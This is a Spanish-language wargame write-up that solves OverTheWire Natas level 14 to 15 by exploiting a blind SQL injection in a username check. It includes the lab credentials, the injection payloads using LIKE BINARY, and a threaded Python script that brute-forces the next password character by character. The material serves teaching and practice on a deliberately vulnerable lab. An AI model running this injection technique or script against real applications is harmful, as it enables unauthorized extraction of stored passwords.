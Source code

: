 ```yaml
---
title: OverTheWire - Natas 14 -> 15 (sin navegador)
layout: post
description: La resolución de Natas 14 -> 15 sin el uso de un navegador web.
tags:
- OverTheWire
- Natas
- post
- writeups
---
```

# Información

---

> Las contraseñas cambian cada cierto tiempo, existe la posibilidad de que esta contraseña ya no sea válida

```
Username: natas15
Password: TTkaI7AWG4iDERztBcEyKV7kRXH1EZRB
URL:      http://natas15.natas.labs.overthewire.org
```

# Solución

---

Abrimos Postman, pegamos la URL e ingresamos nuestras credenciales.

![](/images/images-otw-natas/natas14-15-1.png)

Vemos en la respuesta un formulario y un link que redirige al código fuente de la página.

![](/images/images-otw-natas/natas14-15-2.png)

Si vamos al link debemos hacer click en la pestaña **Preview** o no podremos visualizar correctamente el código.

![](/images/images-otw-natas/natas14-15-3.png)

Lo primero que notamos es una query SQL comentada indicandonos que existe una columna `username` y `password`. También notamos un SQLI en la formación de una query, esta query es vulnerable porque no tiene ningún tipo de filtro y nosotros podemos ingresar lo que queramos.

![](/images/images-otw-natas/natas14-15-4.png)

Más abajo también vemos que si agregamos el parámetro `debug` a la petición el servidor nos responderá con la query que hemos formado, esto nos ayudará con nuestra inyección.

![](/images/images-otw-natas/natas14-15-5.png)

Volvemos a la página principal y vamos a la pestaña **Params** para agregar rellenar los campos `debug`  y `username`.

![](/images/images-otw-natas/natas14-15-6.png)

Al recibir la respuesta vamos a la pestaña **Pretty**.

![](/images/images-otw-natas/natas14-15-7.png)

Vemos cómo se forma la query que se ejecuta en el servidor y además vemos que el usuario **123** no existe.

![](/images/images-otw-natas/natas14-15-8.png)

Intentamos con distintos nombres de usuario hasta que encontremos uno válido.

![](/images/images-otw-natas/natas14-15-9.png)

La página nos indica que el usuario **natas16** existe.

![](/images/images-otw-natas/natas14-15-10.png)

Como vimos al inicio del reto en la base de datos existen 2 columnas: **username** y **password**. Pero como el formulario no nos deja ingresar una contraseña debemos aprovechar la inyección SQLI para adivinar la contraseña. 

```
natas16" AND password LIKE "a%" -- -
```

Como no tenemos otra forma de conocer la contraseña haremos uso del mensaje **This user exists** y **This user doesn't exists**, cuando el caracter ingresado sea correcto la página nos mostrará **This user exists**. Pero hay un problema, `LIKE` no es case sensitive, esto nos traerá problemas porque las contraseñas de natas contienen mayúsculas y minúsculas, si queremos hacer una comparación case sensitive debemos usar `LIKE BINARY`. Quiero decir que si la contraseña tiene un caracter `B` y nosotros usamos `LIKE "b*"` la página nos dira que es correcto aunque no sea verdad.

```
natas16" AND password LIKE BINARY "a%" -- -
```

![](/images/images-otw-natas/natas14-15-11.png)

Podemos ir caracter por caracter probando pero esto no es nada eficiente.

![](/images/images-otw-natas/natas14-15-12.png)

Lo ideal es crear un script en tu lenguaje favorito, yo programé uno en python3 que usa **threads** para hacer la enumeración muchísimo más rápido.

![](/images/images-otw-natas/natas14-15-13.png)

```python
import urllib.request
import threading


def main():
    # Credentials
    url = "http://natas15.natas.labs.overthewire.org"
    username = "natas15"
    natas15_pwd = "TTkaI7AWG4iDERztBcEyKV7kRXH1EZRB"

    characters = "abcdefghijklmnopqrstuvwxyz"
    characters += "ABCDEFGHIJKLMNOPQRSTUVWXYZ"
    characters += "1234567890"

    bandit16_pwd = []
    threads = []

    def test_password(character, password):
        # Authentication
        password_mgr = urllib.request.HTTPPasswordMgrWithDefaultRealm()
        password_mgr.add_password(None, url, username, natas15_pwd)
        handler = urllib.request.HTTPBasicAuthHandler(password_mgr)
        opener = urllib.request.build_opener(handler)
        opener.open(url)
        urllib.request.install_opener(opener)

        # SQL Injection
        payload = f'natas16" AND password LIKE BINARY "{password + character}%"-- -'
        data = {"username": payload}
        data = urllib.parse.urlencode(data).encode()
        req = urllib.request.Request(url, data=data)
        resp = urllib.request.urlopen(req)

        if b"This user exists" in resp.read():
            bandit16_pwd.append(character)

    for _ in range(32):
        password = "".join(bandit16_pwd)
        print(password)

        # For every character it creates a thread that make a request to the webpage
        for character in characters:
            t = threading.Thread(target=test_password, args=(character, password))
            threads.append(t)

        for x in threads:
            x.start()

        for x in threads:
            x.join()
        threads = []

    bandit16_pwd = "".join(bandit16_pwd)
    print(bandit16_pwd)


if __name__ == "__main__":
    main()
```

# Contraseña

---

`TRD7iZrd5gATjj9PkPEuaOlfEjHqj32V`

---

## [Anterior](/level-13-14)

## [Siguiente](/level-15-16)
